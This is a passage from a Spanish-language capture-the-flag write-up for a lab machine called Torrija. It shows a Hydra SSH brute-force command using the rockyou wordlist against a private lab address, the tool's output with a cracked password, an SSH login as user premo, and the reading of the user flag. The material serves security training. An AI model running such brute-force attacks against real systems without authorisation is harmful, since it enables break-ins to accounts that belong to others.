Con esta lista, podemos probar si alguno de estos usuarios es vulnerable a un **ataque de fuerza bruta**.

Resulta que el **usuario debian** y el **usuario premo** son vulnerables:
```bash
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.40 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-14 15:51:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 28688798 login tries (l:2/p:14344399), ~448263 tries per task
[DATA] attacking ssh://192.168.100.40:22/
[22][ssh] host: 192.168.100.40   login: debian   password: 12345
[STATUS] 14344761.00 tries/min, 14344761 tries in 00:01h, 14344080 to do in 00:01h, 21 active
[STATUS] 7172528.50 tries/min, 14345057 tries in 00:02h, 14343785 to do in 00:02h, 20 active
[STATUS] 4781780.00 tries/min, 14345340 tries in 00:03h, 14343502 to do in 00:03h, 20 active
[22][ssh] host: 192.168.100.40   login: premo   password: *******
1 of 1 target successfully completed, 2 valid passwords found
[WARNING] Writing restore file because 16 final worker threads did not complete until end.
[ERROR] 16 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-14 15:54:43
```

Pero el **usuario premo** es el más importante, pues con él encontraremos la flag del usuario:
```bash
ssh premo@192.168.100.40
premo@192.168.100.40's password: 
Linux Torrija-TheHackersLabs 6.1.0-26-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.112-1 (2024-09-30) x86_64
...
Last login: Thu Feb 13 20:08:49 2025
premo@Torrija-TheHackersLabs:~$ whoami
premo
premo@Torrija-TheHackersLabs:~$ ls
user.txt
premo@Torrija-TheHackersLabs:~$ cat user.txt
...
```



<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
